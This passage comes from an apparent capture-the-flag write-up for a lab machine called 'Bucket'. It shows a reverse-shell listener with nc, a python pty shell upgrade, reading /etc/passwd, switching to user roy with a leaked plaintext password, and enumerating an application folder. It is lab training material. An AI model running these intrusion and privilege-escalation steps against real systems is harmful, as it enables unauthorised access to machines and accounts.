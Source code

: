 After a couple of requests we get a reverse-shell back to us.

## Privesc - User

Now that we have initial access, let us try to escalate our privileges to user.

### Su using leaked passwords

Let us upgrade our shell in order to be able to run `su`.

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@bucket:/var/www$ ^Z
[1]+  Stopped                 nc -lvnp 443
root@darkness:~# stty raw -echo
www-data@bucket:/var/www$ export TERM=xterm
```

Next, let us read `/etc/passwd` to see which users are available on the system.

```bash
www-data@bucket:/var/www$ cat /etc/passwd | grep "/bin/.*sh"
root:x:0:0:root:/root:/bin/bash
roy:x:1000:1000:,,,:/home/roy:/bin/bash
```

Seems like we only have two users `root` and `roy`.

Let us try to use the found passwords to su to roy.

```bash
www-data@bucket:/var/www$ su roy
Password: n2vM-<_K_Q:.Aa2
roy@bucket:/var/www$ 
```

We successfully su to roy and can now read user.txt.

```bash
roy@bucket:~$ cat user.txt 
46233***************************
```

## Privesc - Root

Now that we have user, let us enumerate the system to find a privesc-vector to root.

### Enumeration as user

Looking through the system, I came across the folder `bucket-app`.

```bash
roy@bucket:/var/www/bucket-app$ ls -alh
total 856K
drwxr-x---+  4 root root 4.0K Sep 23 10:56 .
drwxr-xr-x   4 root root 4.0K Sep 21 12:28 ..
-rw-r-x---+  1 root root   63 Sep 23 02:23 composer.json
-rw-r-x---+  1 root root  21K Sep 23 02:23 composer.lock
drwxr-x---+  2 root root 4.0K Sep 23 03:29 files
-rwxr-x---+  1 root root  17K Sep 23 03:32 index.php
-rwxr-x---+  1 root root 790K Jun 10  2020 pd4ml_demo.jar
drwxr-x---+ 10 root root 4.0K Sep 23 02:23 vendor
```
